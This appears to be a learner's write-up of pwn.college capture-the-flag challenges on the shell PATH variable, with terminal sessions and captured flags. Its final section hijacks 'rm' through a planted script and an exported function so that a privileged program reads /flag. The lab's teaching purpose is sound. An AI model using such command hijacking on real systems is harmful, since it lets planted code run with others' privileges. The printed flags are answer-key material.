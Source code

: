 # Module 12: Pondering paths
## 1. The PATH variable
**Task:** Changing `PATH` of a command.
</br></br>
**Process:** In this task we change the path of a command using `PATH` variable so that the `/challenge/run` command which runs `rm` on the flag will not be able to do that.
</br>
```bash
hacker@path~the-path-variable:~$ PATH="lol"
hacker@path~the-path-variable:~$ /challenge/run
Trying to remove /flag...
/challenge/run: line 4: rm: command not found
The flag is still there! I might as well give it to you!
pwn.college{0rLPRruNjjngfBwmdSqVU-VH91C.dZzNwUDLxYTN0czW}
```
**flag:** ``
## 3. Setting PATH
**Task:** Changing `PATH` to a different value to invoke a command.
</br></br>
**Process:** Changing path to `/challenge/more_commands/` and running `/challenge/run` command.
</br>
```bash
hacker@path~setting-path:~$ /challenge/run
Invoking 'win'....
/challenge/run: line 4: win: command not found
It looks like that did not work... Did you set PATH correctly?
hacker@path~setting-path:~$ PATH=/challenge/more_commands/
hacker@path~setting-path:~$ /challenge/run
Invoking 'win'....
Congratulations! You properly set the flag and 'win' has launched!
pwn.college{8qwFQjZtOmfQZWc5AR725hrmXyd.dVzNyUDLxYTN0czW}
hacker@path~setting-path:~$
```
**flag:** `pwn.college{8qwFQjZtOmfQZWc5AR725hrmXyd.dVzNyUDLxYTN0czW}`
## 3. Adding Commands
**Task:** Creating a new command and changing its path in such a way in order to not lose the functionality of `cat` and other functions.
</br></br>
**Process:** A lot of trial and error for this one. printed the output of `/flag` onto the `<directory>/win`, changing its permissions to allow the user to execute. changing the path to one which also houses the `cat` command, and then running `/challenge/run`. took me way too much time than what i'd like to admit.
</br>
```bash
hacker@path~adding-commands:~$ mkdir /challenge/more_commands
mkdir: cannot create directory ‘/challenge/more_commands’: Permission denied
hacker@path~adding-commands:~$ mkdir more_commands
hacker@path~adding-commands:~$ echo "cat /flag" > more_commands/win
hacker@path~adding-commands:~$ ls -l more_commands/win
-rw-r--r-- 1 hacker hacker 10 Oct 19 18:04 more_commands/win
hacker@path~adding-commands:~$ chmod u+x more_commands/win
hacker@path~adding-commands:~$ echo $PATH
/run/challenge/bin:/run/workspace/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
hacker@path~adding-commands:~$ PATH=$PATH:~/more_commands/
hacker@path~adding-commands:~$ /challenge/run
Invoking 'win'....
pwn.college{c2xe27SjFQT8mVcpSujdY75QR4D.dZzNyUDLxYTN0czW}
hacker@path~adding-commands:~$
```
**flag:** `pwn.college{c2xe27SjFQT8mVcpSujdY75QR4D.dZzNyUDLxYTN0czW}`
## 4. Hijacking Commands 
**Task:** Disrupt the operation of the `/challenge/run` program by creating a malicious command that it will execute
</br></br>
**Process:** Create an `rm.sh` script, make it executable, and set the `PATH` to include the script's directory before running /challenge/run
</br>
_!!!I employed some help from a fellow cryptonite taskphase member for this task. Will try to do this myself again!!!_
```bash
hacker@path~hijacking-commands:~$ rm() { cat /flag;}
hacker@path~hijacking-commands:~$ export -f rm
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
Found 'rm' command at /usr/bin/rm. Executing!
pwn.college{U_HG_OsluBksgZUVcP_zPLK9RE4.ddzNyUDLxYTN0czW}
hacker@path~hijacking-commands:~$
```
_2nd attempt- doing it on my own without using a function._
```bash
hacker@path~hijacking-commands:~$ echo 'cat /flag' > ~/rm
hacker@path~hijacking-commands:~$ chmod +x ~/rm
hacker@path~hijacking-commands:~$ PATH=~/:$PATH
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
Found 'rm' command at /home/hacker//rm. Executing!
pwn.college{U_HG_OsluBksgZUVcP_zPLK9RE4.ddzNyUDLxYTN0czW}
hacker@path~hijacking-commands:~$
```
**flag:** `pwn.college{U_HG_OsluBksgZUVcP_zPLK9RE4.ddzNyUDLxYTN0czW}`
